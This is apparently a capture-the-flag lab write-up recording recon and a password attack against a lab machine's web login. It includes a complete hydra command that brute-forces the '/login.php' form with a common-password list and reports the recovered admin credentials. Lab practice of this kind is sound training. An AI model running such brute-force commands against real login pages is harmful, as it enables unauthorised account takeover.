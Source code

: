 ## Info

    ATTACKER=10.10.14.40
    VICTIM=10.10.11.104

## Recon

    bash ../../scripts/discovery/first-scan.sh $VICTIM > recon.txt

Looks like port 22 and 80 are open.

### Port 80

There's a login page, you can `POST http://10.10.11.104/login.php username=asdf&password=ASDF`.

Probably try cred stuffing?

#### Subdir scan

    bash ../../scripts/discovery/subdirectory-scan.sh $VICTIM

#### Cred stuffing

    hydra -l admin -P ~/Git/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt $VICTIM -V http-form-post '/login.php:username=^USER^&password=^PASS^:S=Location' -t 64
    
Apparently it worked. `admin:asdfasdf`. Wow!

## Next steps

We have access to the admin interface. Looks like there's a few other users, a way to upload files, and a way to view who downloaded files.